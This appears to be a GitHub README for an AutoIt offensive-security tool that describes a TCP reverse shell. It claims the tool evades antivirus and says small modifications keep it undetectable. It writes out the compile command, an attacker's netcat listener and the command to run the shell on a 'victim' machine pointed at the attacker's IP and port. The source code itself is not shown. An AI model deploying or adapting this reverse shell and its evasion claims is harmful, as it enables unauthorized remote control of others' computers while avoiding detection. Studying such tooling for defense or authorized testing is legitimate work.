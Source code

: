 <div id="top"></div>
<div align="center">
  <a href="https://github.com/0xvinix/offensive-autoit">
    <img src="https://i.imgur.com/4Rapnym.png" alt="Logo" width="500" height="200">
  </a>

  <h3 align="center">Offensive AutoIt</h3>

  <p align="center">
    Simple AutoIt tools for offensive security.
    <br />
    <br />
    <a href="https://github.com/othneildrew/Best-README-Template">Author Linkedin</a>
  </p>
</div>
<br>

<!-- REVERSE SHELL -->
## Simple Reverse Shell

This is yet another simple TCP connection based reverse shell code, however, this is not detected by antivirus systems until today (23/03/2022). Possibly by its date of use, the code will already be quite detectable, but it only takes a few small modifications to make it not.

[![Everything Is AWESOME](https://yt-embed.herokuapp.com/embed?v=QEXk-N8lQ7g)](https://www.youtube.com/watch?v=QEXk-N8lQ7g "Simple Reverse Shell")

<br>
<h3> How to compile 🔨</h3>

To compile the code is very simple, you just need AutoIt v3 on your machine, which you can download from the link below.

https://www.autoitscript.com/site/autoit/downloads/

* cmd
  ```sh
  "C:\Program Files (x86)\AutoIt3\Aut2Exe\Aut2exe_x64.exe" /in "reverse_shell.au3" /console
  ```
<br>
<h3> Usage🔌</h3>

After compiling, just open a port using netcat.

* Attacker
  ```sh
  nc -vnlp 443
  ```
And on the victim's machine, run the compiled file passing your ip and port as an argument.

* Victim
  ```sh
  reverse_shell.exe 127.0.0.1 443
  ```
<br>
<h3> Av Detection (23/03/2022) 🐛</h3>

As already mentioned, until the date of creation of this repository, this code is completely undetectable by any antivirus.

<img src="https://antiscan.me/images/result/m3hwPh2nQ4dC.png">

<p align="right">(<a href="#top">back to top</a>)</p>
